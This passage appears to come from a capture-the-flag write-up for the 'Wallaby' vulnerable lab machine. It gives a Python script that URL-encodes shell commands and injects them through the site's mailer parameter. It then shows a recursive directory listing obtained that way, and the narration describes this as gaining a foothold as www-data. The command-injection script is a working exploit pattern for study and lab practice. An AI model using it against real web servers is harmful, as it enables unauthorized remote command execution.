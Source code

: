 {{< highlight markdown >}}
root@kali:~/wallaby# cat ~/src/wallaby/pcurl.py 
#!/usr/bin/env python3

import argparse
import urllib.parse
import requests

parser = argparse.ArgumentParser()
parser.add_argument("--command", "-c", help="command to encode in URL-friendly format")
parser.add_argument("--sendit", "-s", help="send the request", action='store_true')

args = parser.parse_args()

html_form_value = urllib.parse.quote_plus(args.command)

if args.sendit:
    baseurl = 'http://wallaby/?page=mailer&mail='
    url = baseurl + html_form_value
    r = requests.get(url)
    print(r.text, "\n", r.status_code)
else:
    print(html_form_value)
{{< / highlight >}}

## Getting a Foothold

Now we have a vector for attack, and we need to get a more firm foothold as the www-data user. First we tried to attack PHP, because it's PHP, and appeared to be an older version, and possibly misconfigured. We didn't make much progress though, even though it was now _very easy_ to run commands against the box.

{{< highlight markdown >}}
root@kali:~/wallaby# ~/src/wallaby/pcurl.py -s -c 'ls -lR'
...
.:
total 544
-rw-r--r-- 1 root     root      15953 Aug 11  2015 eye.jpg
-rw-r--r-- 1 root     root       3639 Dec 27  2016 index.php
-rw-r--r-- 1 root     root          0 Dec 27  2016 levelone.txt
drwxr-xr-x 2 root     root       4096 Dec 27  2016 s13!34g$3FVA5e@ed
-rw-r--r-- 1 root     root      57626 Dec 27  2016 sec.png
./s13!34g$3FVA5e@ed:
total 36
-rw-r--r-- 1 root root  339 Dec 27  2016 althome.php
-rw-r--r-- 1 root root  698 Dec 27  2016 blacklist.php
-rw-r--r-- 1 root root   78 Dec 16  2016 contact.php
-rw-r--r-- 1 root root  371 Dec 16  2016 first_visit.php
-rw-r--r-- 1 root root  379 Dec 16  2016 home.php
-rw-r--r-- 1 root root 1350 Dec 27  2016 honeypot.php
-rw-r--r-- 1 root root  213 Dec 15  2016 index.php
-rw-r--r-- 1 root root  461 Dec 16  2016 mailer.php
-rw-r--r-- 1 root root  667 Dec 16  2016 welcome.php
<h2 style='color:blue;'>Coming Soon guys!</h2>
